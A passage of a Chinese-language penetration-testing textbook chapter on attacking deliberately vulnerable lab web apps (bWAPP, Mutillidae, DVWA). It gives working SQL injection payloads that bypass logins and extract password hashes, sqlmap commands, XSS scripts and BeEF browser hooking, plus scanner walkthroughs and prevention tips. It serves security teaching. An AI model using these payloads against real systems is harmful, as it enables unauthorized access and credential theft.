# 第十五章：网站渗透测试 - 获取访问权限

在本章中，我们将比迄今为止更深入地探讨网站和数据库渗透测试。作为渗透测试人员，我们需要根据规则进行模拟对目标组织系统和网络的真实攻击。然而，虽然能够进行信息收集，如侦察和扫描网站，是很好的，但真正的挑战在于何时突破。准备好渗透入敌人基地是很好的，但如果你只是站在远处什么也不做，那一切准备都将毫无意义！

在本章中，我们将探讨如何妥协和获取对 Web 服务器和 Web 应用程序的访问权限。此外，您还将学习一些实际的技术和方法来发现漏洞并检索数据。

在本章中，我们将涵盖以下主题：

+   探索 SQL 注入的危险

+   SQL 注入漏洞和利用

+   跨站脚本漏洞

+   自动发现漏洞

# 技术要求

以下是本章的技术要求：

+   Kali Linux: [`www.kali.org/`](https://www.kali.org/)

+   Windows 7、8 或 10

+   OWASP **Broken Web Applications** (**BWA**) 项目：[`sourceforge.net/projects/owaspbwa/`](https://sourceforge.net/projects/owaspbwa/)

+   Acunetix: [`www.acunetix.com/`](https://www.acunetix.com/)

+   bWAPP: [`sourceforge.net/projects/bwapp/`](https://sourceforge.net/projects/bwapp/)

# 探索 SQL 注入的危险

如前一章所述（第十四章，*进行网站渗透测试*），**SQL 注入**（**SQLi**）允许攻击者将一系列恶意的 SQL 代码/查询直接插入后端数据库服务器。这种漏洞允许攻击者通过向数据库中添加、删除、修改和检索条目来操纵记录。

在本节中，我们将涵盖以下主题：

+   来自 SQL 注入漏洞的危险

+   利用 SQL 注入漏洞绕过登录

现在，让我们详细了解 SQL 注入的危险。

# 来自 SQL 注入漏洞的危险

成功的 SQL 注入攻击可能会导致以下情况：

+   **身份验证绕过**：允许用户在没有有效凭据或权限的情况下访问系统

+   **信息泄露**：允许用户获取敏感信息

+   **数据完整性受损**：允许用户操纵数据库中的数据

+   **数据可用性受损**：阻止合法用户访问系统上的数据

+   **在受损系统上远程执行代码**：允许恶意用户远程在系统上运行恶意代码

接下来，让我们看看如何利用 SQL 注入绕过登录。

# 利用 SQL 注入绕过登录

在这个练习中，我们将使用 OWASP BWA 虚拟机来演示如何利用 SQL 注入绕过身份验证。首先，启动 OWASP BWA 虚拟机。几分钟后，虚拟机将提供其 IP 地址。

前往您的 Kali Linux（攻击者）机器，并按照以下步骤操作：

1.  在 Kali Linux 的 Web 浏览器中输入 OWASP BWA 虚拟机的 IP 地址。

1.  点击**OWASP Mutillidae II**应用程序，如下所示：


1.  导航到以下页面：OWASP 2013 | A2 - Broken Authentication and Session Management | Authentication Bypass | Via SQL Injection | Login:


1.  在**用户名**字段中输入以下任意一个字符：

+   `**'**`

+   `**/**`

+   `**--**`

+   `**\**`

+   `**.**`

如果登录页面出现错误，请检查服务器生成的消息。

如果网站的登录页面没有出现错误，请尝试使用 true 或 false 语句，如`1=1 --`或**`1=0 --`**。

当我们运行此命令时，类似以下错误应该出现。如果您仔细观察，可以看到在 Web 服务器应用程序和数据库之间使用的查询，`SELECT username FROM accounts WHERE username= ' ' ' ;`，如下所示：


可以从 SQL 查询中确定以下内容：

+   +   `SELECT`语句用于从关系数据库中检索信息。因此，该语句以`SELECT`表中的`username`列开始。

+   `FROM`语句用于指定表的名称。在语句中，我们正在指定**accounts**表。

+   `WHERE`语句用于指定表中的字段。查询指示具有值等于`'`（单引号）的字段。`=`（等于）参数允许我们确保在查询中进行特定匹配。

+   `;`用于结束 SQL 语句。

+   组合后，该语句如下：查询`accounts`表中的`username`列，并搜索任何用户名为`**'**`（单引号）的用户名。

`INSERT`命令用于添加数据。`UPDATE`用于更新数据，`DELETE`或`DROP`用于删除数据，`MERGE`用于在表和/或数据库中合并数据。

1.  让我们尝试组合一些语句。在**Username**字段中使用**`' or 1=1 --`**（`--`后面有一个空格），然后单击**Login**：



该语句选择表中的第一条记录并返回它。在检查登录状态后，我们可以看到我们现在以`admin`的身份登录。这意味着第一条记录是`admin`：


该语句选择表中的第一条记录并返回值，即`admin`。

1.  让我们尝试另一个用户并稍微修改我们的代码。我们将尝试以用户`john`的身份登录。将用户名字段插入`john`，将以下 SQL 命令插入密码字段：

```
' or (1=1 and username = 'john') --
```

确保双破折号（`--`）后有一个空格，并点击**Login**执行命令。以下截图显示我们能够成功以用户`john`的身份登录：


这些是您可以使用的一些技术，以绕过对 Web 服务器进行 SQL 注入攻击的身份验证。在下一节中，我们将介绍 SQL 注入漏洞和利用。

# SQL 注入漏洞和利用

在本节中，我们将使用 SQL 注入来探索以下漏洞和利用：

+   使用 GET 发现 SQL 注入

+   读取数据库信息

+   查找数据库表

+   提取诸如密码之类的敏感数据

要开始使用 GET 发现 SQL 注入，请使用以下说明：

1.  打开 OWASP BWA 虚拟机。几分钟后，虚拟机将提供其 IP 地址。

1.  前往您的 Kali Linux（攻击者）机器，并在 Kali Linux 的 Web 浏览器中输入 OWASP BWA 虚拟机的 IP 地址。

1.  点击这里的**bWAPP**应用程序：



1.  使用`bee`作为用户名，使用`bug`作为密码登录应用程序。然后点击登录：


1.  选择**SQL 注入（搜索/GET）**选项，并单击**Hack**继续：



1.  将出现一个搜索框和表。当您在搜索字段中输入数据时，将使用 GET 请求从 SQL 数据库中检索信息并在网页上显示它。现在，让我们搜索包含字符串`war`的所有电影：


**免责声明**：前面截图中可见的信息是从 Metasploitable 虚拟机中的本地存储的数据库中检索到的；具体来说，它位于 bWAPP 易受攻击的 Web 应用程序部分。此外，使用的虚拟机位于隔离的虚拟网络中。

仔细观察网页浏览器中的 URL，我们可以看到`sqli_1.php?title=war&action=search`被用来从数据库返回/显示结果给我们。

1.  如果我们在搜索字段中使用`1'`字符，当使用`sqli_1.php?title=1'&action=search`时，我们将得到以下错误：


这个错误表明目标容易受到 SQL 注入攻击。错误表明我们在搜索字段中插入的语法存在问题。此外，错误显示数据库是一个 MySQL 服务器。这种泄露错误不应该以这种方式向用户公开。数据库错误应该只能被数据库管理员/开发人员或其他负责人访问。这表明 Web 应用程序和数据库服务器之间存在配置错误。

1.  将 URL 调整为`http://192.168.56.101/bWAPP/sqli_1.php?title=1' order by 7-- -`，我们得到以下响应：


输出表明至少有七个表。我们通过在 URL 中使用`order by 7-- -`来得知这一点。请注意，在下一步中，当我们调整 URL 以检查额外的表时，我们会收到一个错误。

1.  让我们通过以下 URL 检查是否有八个表：`http://192.168.56.101/bWAPP/sqli_1.php?title=1' order by 8-- -`。正如我们所看到的，返回了一个错误消息：


因此，我们可以确认我们有七个表。

1.  现在，我们可以将 URL 调整为`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,2,3,4,5,6,7-- -`。下面的截图显示了结果。Web 应用程序（bWAPP）在同一行中返回值`2`，`3`，`5`和`4`。因此，我们可以确定表`2`，`3`，`4`和`5`容易受到攻击：


1.  要检查数据库版本，我们可以在以下 URL 中将`@@version`替换为一个有漏洞的表，得到`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1, @@version,3,4,5,6,7-- -`：


1.  现在我们可以尝试通过以下 URL 获取表名`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables-- -`：


现在，我们已经获得了数据库中的所有表。以下表是由开发人员创建的：


1.  我们现在将尝试从`users`表中检索用户凭据。首先，我们需要从用户表中获取列的名称。您可能会遇到 PHP 魔术方法的一个小问题：错误不允许我们在 PHP 魔术方法中插入/查询字符串。例如，如果我们在 URL 中插入`users`字符串，那么我们将无法从`users`表中检索信息，这意味着数据库不会返回任何列。为了绕过这个错误，将`users`字符串转换为 ASCII。`users`的 ASCII 值是**117 115 101 114 115**。

1.  现在，我们可以继续仅从`users`表中检索列。我们可以使用以下 URL：`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name=char(117,115,101,114,115)-- -`：


`Char()`允许 SQL 注入在 MySQL 中插入语句而不使用双引号（`""`）。

1.  使用`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 from users-- -`，我们可以查看`users`表中的`email`列，如*步骤 14*中所述：


1.  要检索密码，请将 URL 调整为`http://192.168.56.101/bWAPP/sqli_1.php?title=1' union select 1,password,3,4,5,6,7 from users-- -`：


1.  现在，我们有密码的哈希值。我们可以使用在线或离线哈希标识符来确定哈希的类型：



1.  此外，您可以使用在线哈希解码器，如**CrackStation**（[`crackstation.net/`](https://crackstation.net/)）来执行解密：


通过在 Web 浏览器的 URL 中操纵 SQL 语句，我们成功地从 SQL 服务器中检索了用户凭据。

在接下来的部分中，我们将学习如何在目标服务器上使用 POST 检测 SQL 注入。

# 发现 POST 中的 SQL 注入

在这个练习中，我们将尝试发现是否可以使用 POST 进行 SQL 注入。**POST**方法用于向 Web 服务器发送数据。这种方法不像**GET**方法，后者用于检索数据或资源。我们将使用以下拓扑来完成这个练习：


要开始使用 POST 检测 SQL 注入，请使用以下说明：

1.  在您的 Kali Linux 机器上启用 Burp 代理，并确认您的 Web 浏览器代理设置是否正确。如果您不确定，请参考第七章，*使用漏洞扫描器*，特别是*Burp Suite*部分，其中包含了配置 Burp Suite 在 Kali Linux 机器上的所有细节。

1.  确保在 Burp Suite 上启用**拦截**，如下所示：


1.  在 Kali Linux 上的 Web 浏览器中输入 OWASP BWA IP 地址。

确保在 Burp Suite 上定期单击**转发**按钮，以在 Kali Linux Web 浏览器和 OWASP BWA Web 服务器之间转发数据。

1.  单击**bWAPP**，如下截屏所示。使用凭据`bee`（用户名）和`bug`（密码）登录**bWAPP**门户。请注意，这些是**bWAPP**虚拟机的默认用户凭据：



1.  在右上角，使用下拉菜单选择**SQL 注入（搜索/POST）**，然后单击**Hack**加载漏洞：


1.  在搜索字段中输入一个词并单击**搜索**提交（发布）数据：


数据库将通过声明是否找到电影来做出响应。

1.  在 Burp Suite 中，选择目标|站点地图选项卡，查看 Kali Linux 上的 Web 浏览器与 OWASP BWA Web 服务器之间的所有**GET**和**POST**消息。

1.  选择最近的**POST**消息，其中应包含您刚刚执行的搜索：



以下显示了此**POST**消息的内容：



1.  在`Raw`内容窗口中的任何位置右键单击，并选择**保存项目**选项。在 Kali Linux 的桌面上将文件保存为`postdata.txt`。

1.  文件保存成功后，让我们使用 SQLmap 在目标服务器上发现任何 POST 中的 SQL 注入（SQLi）漏洞。使用以下命令执行此任务：

```
sqlmap –r /root/Desktop/postdata.txt
```

1.  SQLmap 将尝试检查任何/所有`POST`参数，并确定应用程序是否存在漏洞。以下显示了一些可能的漏洞：


在前面的屏幕截图中，SQLmap 能够注意到`'title'`参数可能是易受攻击的，并且数据库也可能是 MySQL 平台。此外，以下是找到的一个可注入参数的示例：


前面的屏幕截图显示，SQLmap 已确定`'title'`参数也容易受到 SQL 注入攻击。最后，以下是 SQLmap 有效载荷：



在这里，SQLmap 为我们提供了一些关于已经测试过的内容、测试方法和结果的总结。通过 SQLmap 给出的信息，我们知道目标网站在 POST 中对 SQLi 攻击是易受攻击的，并且如何利用特定有效载荷来利用弱点。

完成了这个练习后，您现在可以使用 Burp Suite 和 SQLmap 来发现 POST 消息中的 SQL 注入漏洞。

在下一节中，您将学习如何使用 SQLmap 工具来发现 SQL 注入。

# 使用 SQLmap 检测 SQL 注入并提取数据

SQLmap 是一种自动 SQL 注入工具，允许渗透测试人员发现漏洞，执行利用攻击，操纵记录，并从数据库中检索数据。

要使用 SQLmap 执行扫描，请使用以下命令：

```
sqlmap –u "http://website_URL_here"
```

此外，以下参数可用于执行各种任务：

+   `--dbms=database_type`：执行后端暴力攻击。例如`--dbms=mysql`。

+   `--current-user`：检索当前数据库用户。

+   `--passwords`：枚举密码哈希。

+   `--tables`：枚举数据库中的表。

+   `--columns`：枚举表中的列。

+   `--dump`：转储数据表条目。

在下一节中，我们将讨论预防 SQL 注入的方法。

# 防止 SQL 注入

在本节中，我们将简要介绍一些重要的技术，以最小化和预防系统上的 SQL 注入攻击。我们还将以简单的格式查看最佳实践。

以下技术可用于防止 SQL 注入攻击：

+   以最低权限运行数据库服务。

+   使用**Web 应用程序防火墙**（**WAF**）或 IDS/IPS 监视所有数据库流量。

+   清理数据。

+   过滤所有客户端数据。

+   在用户端抑制错误消息。

+   使用自定义错误消息而不是默认消息。

+   使用安全 API。

+   定期对数据库服务器进行黑盒渗透测试。

+   通过对用户输入的参数集合执行类型和长度检查；这可以防止代码执行。

在下一节中，我们将学习**跨站脚本**（**XSS**）漏洞。

# 跨站脚本漏洞

如前一章所述，XSS 允许攻击者将客户端脚本注入到其他用户查看的网页中。因此，当一个毫不知情的用户访问包含恶意脚本的网页时，受害者的浏览器将自动在后台执行这些恶意脚本。

在本节中，我们将通过以下主题来发现各种 XSS 漏洞：

+   理解 XSS

+   发现反射型 XSS

+   发现存储型 XSS

+   利用 XSS-将易受攻击的页面访问者连接到 BeEF

在下一节中，我们将学习什么是 XSS。

# 理解 XSS

如前一章所述，XSS 攻击是通过利用动态创建的网页中的漏洞来完成的。这允许攻击者将客户端脚本注入到其他用户查看的网页中。当一个毫不知情的用户访问包含 XSS 的网页时，用户的浏览器将开始在后台执行恶意脚本，而受害者并不知情。

在接下来的练习中，我们将在 OWASP BWA 虚拟机上同时使用**WebGoat**和**bWAPP**：



**WebGoat**的用户名/密码是`guest`/`guest`。**bWAPP**的用户名/密码是`bee`/`bug`。

接下来，我们将看一下反射型 XSS。

# 发现反射型 XSS

在反射型 XSS 攻击中，数据被插入，然后反射回到网页上。在这个练习中，我们将走过发现目标服务器上反射型 XSS 漏洞的过程。

要完成此任务，请执行以下说明：

1.  导航到**bWAPP**应用程序并登录。

1.  选择**跨站脚本 - 反射（GET）**，然后单击**Hack**以启用此漏洞页面：


1.  在表单中不输入任何细节，单击**Go**。查看网页浏览器地址栏中的 URL，您可以看到 URL 可以被编辑：


1.  要测试字段是否容易受到反射型 XSS 攻击，我们可以在**名字**字段中插入自定义 JavaScript。插入以下 JavaScript：

```
<script>alert("Testing Reflected XSS")
```

在**姓**字段中，使用以下命令关闭脚本：

```
</script>
```

以下截图显示了您需要做的事情：


1.  单击**Go**在服务器上执行脚本。将出现以下弹出窗口：


这表明脚本在目标服务器上无任何问题地运行；因此，服务器容易受到 XSS 攻击。

在接下来的部分，我们将看一下存储的 XSS。

# 发现存储的 XSS

在存储的 XSS 中，渗透测试人员注入恶意代码，该代码将存储在目标数据库中。

在这个练习中，我们将走过发现目标服务器上存储的 XSS 漏洞的过程。

要完成此任务，请使用以下说明：

1.  导航到 bWAPP 应用程序并登录。

1.  选择**跨站脚本 - 存储（博客）**，然后单击**Hack**以启用此漏洞页面：


1.  您可以在文本字段中输入任何消息，然后单击提交。输入的文本现在将存储在数据库中，就像在线留言板、论坛或带有评论部分的网站一样：



此外，我们可以看到表格、字段和列。

1.  我们可以在文本字段中输入以下脚本，然后单击**提交**：

```
<script>alert("Testing Stored XSS")</script>
```

1.  提交脚本后，您将收到以下弹出窗口，验证它成功运行：


看着表格，有第二行没有任何实际条目：


这个新条目反映了我们的脚本已被插入并存储在数据库中。如果有人打开这个网页，脚本将自动执行。

在接下来的部分中，我们将演示如何利用**浏览器利用框架**（**BeEF**）来利用 XSS 漏洞。

# 利用 XSS – 钩住易受攻击页面的访客到 BeEF

BeEF 是一种安全审计工具，由渗透测试人员用来评估系统和网络的安全状况，并发现漏洞。它允许您钩住客户端浏览器并利用它。钩住是指让受害者点击包含 JavaScript 代码的网页的过程。然后，受害者的网页浏览器会处理 JavaScript 代码，并将浏览器绑定到 Kali Linux 上的 BeEF 服务器。

对于这个练习，我们将使用以下拓扑结构：


让我们开始使用 BeEF 来利用 XSS 漏洞：

1.  要打开 BeEF，转到**应用程序** | **08 – Exploitation Tools** | **beef xss framework**。BeEF 服务将启动并显示以下细节以访问 BeEF 界面：



WEB UI 和 hook URL 很重要。 JavaScript hook 通常嵌入到发送给受害者的网页中。一旦访问，JavaScript 将在受害者的浏览器上执行，并创建到 BeEF 服务器的 hook。 hook 脚本中使用的 IP 地址是 BeEF 服务器的 IP 地址。在我们的实验室中，它是 Kali Linux（攻击者）机器。

1.  Web 浏览器将自动打开到 BeEF 登录门户。如果没有打开，请使用`http://127.0.0.1:3000/ui/panel`：


用户名是`beef`，并且在最初启动 BeEF 时将设置密码。

1.  在 Kali Linux 上启动 Apache Web 服务：

```
service apache2 start
```

1.  编辑位于 Web 服务器目录中的网页。

```
cd /var/www/html nano index.html
```

1.  插入如下所示的 HTML 页面头部中的代码：


IP 地址属于运行 BeEF 服务器的 Kali Linux 机器。

1.  在您的 Windows 机器上，打开 Web 浏览器并插入 Kali Linux 机器的 IP 地址：


1.  返回到您的 Kali Linux 机器。您现在有一个被钩住的浏览器。单击被钩住的浏览器：


1.  单击`命令`选项卡。在这里，您可以在受害者的 Web 浏览器上执行操作。让我们在客户端显示一个通知。

1.  单击命令选项卡|社会工程学|伪造通知栏：


最右侧的列将显示攻击的描述。准备好后，单击执行以启动它。

1.  现在，转到 Windows 机器。您会看到 Web 浏览器中出现一个伪造的通知栏：


BeEF 允许您对受害者的浏览器界面执行客户端攻击。

在本节中，我们介绍了用于发现目标上的 XSS 漏洞的各种方法和技术，并使用 BeEF 执行了 XSS 利用。在下一节中，我们将执行自动 Web 漏洞扫描。

# 自动发现漏洞

在本节中，我们将介绍使用工具来帮助我们自动发现 Web 应用程序和服务器漏洞。将使用 Burp Suite、Acunetix 和 OWASP ZAP 执行漏洞扫描。

# Burp Suite

在第七章中，*使用漏洞扫描器*，我们概述了使用 Burp Suite 的好处和功能。在本节中，我们将进一步演示如何使用此工具执行自动漏洞发现。

我们可以使用 Burp Suite 对特定页面或网站执行自动扫描。在开始之前，请确保您已配置以下设置：

+   在攻击者机器（Kali Linux）上配置 Web 浏览器以与 Burp Suite 代理一起使用。如果您在此任务中遇到困难，请重新查看第七章，*使用漏洞扫描器*。

+   确保您打开 OWASP BWA 虚拟机并捕获其 IP 地址。

一旦这些配置就位，我们可以开始采取以下步骤：

1.  使用 Kali Linux 机器上的 Web 浏览器导航到 OWASP BWA 虚拟机中的**DVWA**。

1.  单击**SQL 注入**如下所示：


1.  打开 Burp Suite 并确保**拦截**已打开。

1.  在 DVWA 网页上，单击**提交**按钮将 HTTP 请求发送到服务器：


1.  在 Burp Suite 中，您应该能够看到 HTTP 请求。右键单击上下文窗口中的任何位置，然后选择**执行主动扫描**：


这将允许 Burp Suite 对目标网页执行自动扫描，以发现任何 Web 漏洞。

完成使用 Burp Suite 进行扫描后的结果示例如下：


选择找到的每个问题将为您提供特定漏洞的详细信息。

在下一节中，我们将学习如何使用 Acunetix 发现 Web 漏洞。

# Acunetix

Acunetix 是业内最受欢迎和认可的 Web 应用程序漏洞扫描器之一。目前，它是财富 500 强公司中使用最广泛的漏洞扫描器之一。Acunetix 旨在通过扫描目标网站或 Web 服务器交付先进的 XSS 和 SQL 注入攻击。

要开始使用 Acunetix，请遵循以下步骤：

1.  转到[`www.acunetix.com/vulnerability-scanner/download/`](https://www.acunetix.com/vulnerability-scanner/download/)并注册试用版本。Acunetix 是一款商业产品，但我们可以获得试用版本进行练习。

1.  完成注册后，您将看到以下屏幕：


下载 Linux 版本，因为我们将在攻击者机器 Kali Linux 上使用它。

1.  下载`acunetix_trial.sh`文件后，使用`chmod +x acunetix_trial.sh`命令为您的本地用户帐户应用可执行权限。要开始安装，请使用`./acunetix_trial.sh`命令，如下所示：


1.  在命令行界面上，阅读并接受**最终用户许可协议**（**EULA**）。

1.  在 Kali Linux 中打开您的 Web 浏览器，并输入以下地址`https://kali:13443/`，以访问 Acunetix 用户界面。使用在设置过程中创建的用户帐户登录：



1.  要开始新的扫描，请单击**创建新目标**或**添加目标**，如下所示：



1.  **添加目标**弹出窗口将打开，允许您指定目标：


1.  添加目标后，您将看到自定义扫描选项：


现在，我们将保留所有选项的默认设置。

1.  指定扫描类型和报告选项：


Acunetix 允许您为您的业务需求生成以下类型的报告：

+   +   受影响的项目

+   开发人员

+   执行

+   快速

+   合规性报告

+   CWE 2011

+   HIPAA

+   ISO 27001

+   NIST SP800 53

+   OWASP Top 10 2013

+   OWASP Top 10 2017

+   PCI SDD 3.2

+   萨班斯-奥克斯利法案

+   STIG DISA

+   WASC 威胁分类

1.  当您准备好时，请在目标上启动扫描。

扫描完成后，在主 Acunetix 仪表板上提供了摘要，如下所示：



您可以快速查看扫描的持续时间和发现的任何高风险漏洞。

1.  要查看找到的漏洞的详细列表，请单击**漏洞**选项卡，并选择其中一个 Web 漏洞：


要创建报告，请单击**生成报告**。报告向导将允许您根据 Web 应用程序渗透测试的目标指定最合适的报告类型。生成报告后，您可以将文件下载到桌面上。以下是执行报告的 PDF 版本：


Acunetix 绝对是您渗透测试工具箱中必不可少的工具。它将允许您快速对任何 Web 应用程序进行黑盒测试，并以易于阅读和理解的报告呈现发现结果。

在下一节中，我们将学习如何使用 OWASP ZAP 执行 Web 漏洞评估。

# OWASP ZAP

OWASP **Zed Attack Proxy**（**ZAP**）项目是由 OWASP 创建的免费安全工具，用于发现 Web 服务器和应用程序上的漏洞，具有简单易用的界面。

OWASP ZAP 预先安装在 Kali Linux 中。首先，让我们对目标 OWASP BWA 虚拟机执行 Web 漏洞扫描。

要开始使用 OWASP ZAP，请执行以下步骤：

1.  打开 OWASP ZAP，然后导航到应用程序 | 03-Web 应用程序分析 | OWASP-ZAP。在界面上，点击自动扫描，如下所示：



1.  输入 OWASP BWA 虚拟机的 IP 地址，然后单击“攻击”以开始安全扫描：


在扫描阶段期间，OWASP ZAP 将对目标执行蜘蛛爬行。**蜘蛛爬行**是一种技术，其中 Web 安全扫描程序检测隐藏的目录并尝试访问它们（爬行）：


1.  扫描完成后，单击“警报”选项卡，以查看在目标上发现的所有基于 Web 的漏洞及其位置：


在选择漏洞后，OWASP 将显示从目标服务器返回的 HTTP 头和正文：


如果您仔细观察前面的屏幕截图，您会发现 OWASP ZAP 已经突出显示了 Web 编码的受影响区域。

1.  安全扫描完成后，您可以创建和导出报告。要做到这一点，请单击报告 | 生成 HTML 报告。该应用程序将允许您将报告保存到您的桌面。以下是使用 OWASP ZAP 创建的样本报告：


另外，OWASP ZAP 允许您根据您的需求以多种格式生成报告。一定要探索这个令人惊叹的工具的其他功能。

# 摘要

完成本章后，您现在可以执行 Web 应用程序渗透测试，使用 SQL 注入攻击绕过登录，查找数据库中的表并检索用户凭据，对 Web 应用程序执行各种类型的 XSS 攻击，并成功地使用 BeEF 启动客户端攻击。

我希望本章对你的学习和职业有所帮助。在下一章中，您将学习有关渗透测试最佳实践的知识。

# 问题

以下是基于本章涵盖的主题的一些问题：

1.  用于指定数据库中的表的 SQL 语句是什么？

1.  如何在 SQL 中关闭语句？

1.  如何在数据库中添加新记录？

1.  什么工具可以执行客户端攻击？

# 进一步阅读

+   **XSS**：[`www.owasp.org/index.php/Cross-site_Scripting_(XSS)`](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

+   **SQL 注入**：[`www.owasp.org/index.php/SQL_Injection`](https://www.owasp.org/index.php/SQL_Injection)
